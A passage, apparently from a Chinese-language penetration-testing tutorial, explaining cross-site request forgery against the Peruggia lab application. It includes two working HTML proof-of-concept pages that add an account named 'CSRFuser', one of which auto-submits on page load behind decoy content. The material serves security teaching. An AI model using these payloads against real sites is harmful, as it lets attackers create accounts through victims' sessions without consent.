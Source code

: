 请求只包括`newuser`（用户名）和`newuserpass`（密码）参数。因此，一旦确定了进行更改的请求和参数，我们需要执行以下操作：

1.  创建一个生成带有这些参数和要使用的信息的请求的 HTML 页面。

1.  说服用户浏览到您的页面并提交请求。后者可能是不必要的，因为您可以让页面自动提交表单。

需要一个复杂的 HTML 页面来实现我们的目标。在这个例子中，易受攻击的服务器是`10.7.7.5`：

```
<HTML> 
  <body> 
    <form method="POST" action="http://10.7.7.5/peruggia/index.php?action=account&adduser=1"> 
      <input type="text" value="CSRFuser" name="newuser"> 
      <input type="text" value="password123!" name="newuserpass"> 
      <input type="submit" value="Submit"> 
    </form> 
  </body> 
</HTML> 
```

生成的页面将如下屏幕截图所示。底部部分是 Firefox 开发者工具面板，可以使用*F12*键激活：

![](img/00193.jpeg)

在常规渗透测试中，这可能作为**概念验证**（**PoC**）有效，并足以证明存在漏洞。更复杂的版本可以包含欺骗性内容和脚本代码，以在页面加载后自动提交请求：

```
<HTML> 
  <BODY> 
    ... 
    <!-- include attractive HTML content here --> 
    ... 
    <FORM id="csrf" method="POST" action="http://10.7.7.5/peruggia/index.php?action=account&adduser=1"> 
      <input type="text" value="CSRFuser" name="newuser"> 
      <input type="text" value="password123!" name="newuserpass"> 
      <input type="submit" value="Submit"> 
    </FORM> 
    <SCRIPT>document.getElementById("csrf").submit();</SCRIPT> 
  </BODY> 
</HTML> 
```
